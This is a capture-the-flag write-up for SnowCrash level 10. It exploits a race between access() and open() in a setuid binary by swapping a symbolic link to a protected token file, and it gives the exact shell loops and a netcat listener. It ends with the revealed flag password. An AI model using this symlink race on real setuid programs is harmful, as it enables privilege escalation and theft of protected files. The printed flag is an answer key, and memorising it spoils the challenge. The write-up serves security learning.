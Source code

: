 # Level 10

## The Challenge

The folder contains a binary named level10 owned by flag10. The setuid and setgid bits are set. There is also a file named token owned by flag10. Groups and others have no rights on token. level10 takes two arguments, a filename and an host address.
The idee seems to be to let level10 open for us the token file and display its content at the host address. But level10 claims that we don't have access to token :(

```sh
level10@SnowCrash:~$ ls -al
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
level10@SnowCrash:~$
```

## Decompile the code

... with dogbolt.org

```c
v1 = v0[1];
v2 = v0[2];
if (access(v0[1], 4))
{
    v14 = printf("You don't have access to %s\n");
}
```

...

```c
v4 = open(v1, 0, 8);
```

## The target

level10 check the rights on the file given as argument using the acces function. access check wether the real user id (here level10 ; the effective user id being flag10) have read right on a file.
access have a well known weakness:

man access(2)

```
 Warning: Using these calls to check if a user is authorized to,
       for example, open a file before actually doing so using open(2)
       creates a security hole, because the user might exploit the short
       time interval between checking and opening the file to manipulate
       it.  For this reason, the use of this system call should be
       avoided.
```

The idee is to provide as argument a random file on which level10 has the rights. Then switch it with token after the check with access and prior to the opening. Therefore we run a loop who switch a symbolic link between a genuine file we own and token and in parallel a loop who run level10 with the symbolic link as argument.

## The hack

listen in one terminal

```sh
$ while true ; do netcat -l 127.0.0.1 6969; done
```

run the loops in another one

```sh
$ touch /tmp/mykey
$ while true; do ln -sf /home/user/level10/token /tmp/mykey; ln -sf /tmp/test /tmp/mykey; done &
$ for i in {1..1000}; do /home/user/level10/level10 /tmp/mykey 127.0.0.1; done
$ killall bash
```

flag10 password: woupa2yuojeeaaed06riuj63c
